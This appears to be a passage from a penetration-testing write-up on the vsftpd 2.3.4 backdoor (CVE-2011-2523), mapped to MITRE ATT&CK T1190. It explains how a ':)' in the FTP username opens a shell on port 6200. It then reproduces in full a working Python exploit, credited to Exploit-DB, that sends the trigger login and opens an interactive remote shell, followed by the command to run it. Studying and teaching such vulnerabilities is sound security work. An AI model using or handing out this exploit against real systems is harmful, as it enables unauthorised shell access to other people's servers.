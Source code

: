 
[Exploit Public-Facing Application - T1190](https://attack.mitre.org/techniques/T1190/)
**vsftpd 2.3.4** is an open-source FTP server used for file transfer in Unix-like operating systems. This is particularly useful for threat actors to enable data exfiltration as this service is designed for file transfer across networks. Searching the service name and version on exploit-db **"vsftp 2.3.4"** reveals that there is a known vulnerability that allows backdoor command execution on machines that use this version of vsftpd. [NIST](https://www.nist.gov/) has created a CVE listing for this vulnerability [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) with the description:
>*"vsftpd 2.3.4 downloaded between 20110630 and 20110703 contains a backdoor which opens a shell on port 6200/tcp."*

Backdoors are hidden entry points that allow direct unauthorised access into applications, systems and networks. In the case of CVE-2011-2523, the package that was distributed allowed users to login to the server with a **:)** and gain a command shell on port **6200**

The Exploit-db listing also contains a python script which can be used to exploit this vulnerability. 
``` python
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
            
```

This python script can be easily ran within the terminal.
``` bash
python3 vsftpd_exploit_db.py <ip>
```
